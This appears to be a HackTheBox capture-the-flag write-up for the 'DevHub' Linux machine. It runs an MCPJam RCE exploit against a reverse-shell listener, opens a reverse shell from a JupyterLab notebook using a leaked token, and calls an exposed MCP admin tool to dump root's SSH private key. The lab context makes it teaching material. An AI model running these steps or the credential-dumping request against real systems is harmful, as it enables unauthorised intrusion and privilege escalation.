

# HackTheBox - DevHub Machine Writeup

* **Machine:** DevHub
* **Platform:** HackTheBox
* **Category:** Machine
* **Difficulty:** Medium
* **OS:** Linux

## Enumeration

First, I checked whether the target was reachable:

```bash
└─$ ping -c 5 $ip
```

Next, I scanned the target for open services:

```bash
└─$ rustscan -a $ip -- -sV
```

The scan found three open ports:

```text
22/tcp    open    ssh
80/tcp    open    http
6274/tcp  open
```

I added the hostname to `/etc/hosts`:

```bash
└─$ echo "$ip  devhub.htb" | sudo tee -a /etc/hosts
```

Then I visited port 80 and found that **MCP Inspector** was running on port **6274**.

When visiting port **6274**, I found that the functions were not working. So, I searched for an **MCPJam** vulnerability and found an **RCE** on *Exploit Server*.

## Initial Access

I created an exploit for the MCPJam service.

Then I executed it against the target:

```bash
└─$ python3 mcpjam.py -u http://devhub.htb:6274 -l 10.10.15.106 -p 4444
```

This gave me a reverse shell as the `mcp-dev` user.

## User Access

After getting access as `mcp-dev`, I found two intresting services listening on localhost:

```bash
└─$ ss -tunlp
127.0.0.1:8888
127.0.0.1:5000
```

I checked the running processes:

```bash
└─$ ps auxww
```

The output showed that JupyterLab was running on port `8888` as the `analyst` user and exposed a token, also found python server running as the `root`:
```text
analyst ... jupyter-lab --ip=127.0.0.1 --port=8888 ... --ServerApp.token=<TOKEN>

root  /home/analyst/jupyter-env/bin/python3 /opt/opsmcp/server.py
```

I uploaded my SSH public key and created an SSH tunnel to access JupyterLab:

```bash
└─$ ssh -N -L 8888:127.0.0.1:8888 -i ~/.ssh/id_rsa mcp-dev@$ip
```

Then I used the exposed token to log in.

I clicked on the Python logo to create a new notebook.


Then I wrote a Python reverse shell in the notebook:



I pressed `Ctrl + Enter` to run it.

This gave me a shell as the `analyst` user.

Then I retrieved the user flag:

```bash
analyst@devhub:~$ cat user.txt
****************
```

## Privilege Escalation

While enumerating the system, I found that the `analyst` user could read `/opt/opsmcp/server.py`. 

```bash
└─$ cat /opt/opsmcp/server.py
```

While examining the file, I found the API key used by the local service.

I then accessed the service on port `5000`:

```bash
└─$ curl http://127.0.0.1:5000 \
  -H "X-API-Key: <API_KEY>"
```

One of the available tools was:

```text
ops._admin_dump
```

I used it to request the SSH keys:

```bash
└─$ curl -X POST http://127.0.0.1:5000/tools/call \
  -H "X-API-Key: <API_KEY>" \
  -H "Content-Type: application/json" \
  -d '{
    "name": "ops._admin_dump",
    "arguments": {
      "target": "ssh_keys",
      "confirm": true
    }
  }'
```

The response returned an SSH private key for `root`.

I used `tr` to format the SSH private key:

```bash
└─$ echo "<ssh key>" | tr "\n" "\n" > root_rsa
└─$ chmod 600 root_rsa
```

Then I used the key to connect as `root`:

```bash
└─$ ssh -i root_rsa root@$ip
```

## Root Flag

After getting root access, I read the root flag:

```bash
root@DevHub:~# cat /root/root.txt
****************
```

## Summary

DevHub starts with an **MCPJam RCE** that gives access as `mcp-dev`. From there, I accessed JupyterLab, obtained the `analyst` user, and used the local OpsMCP service to retrieve a root SSH key and gain root access.
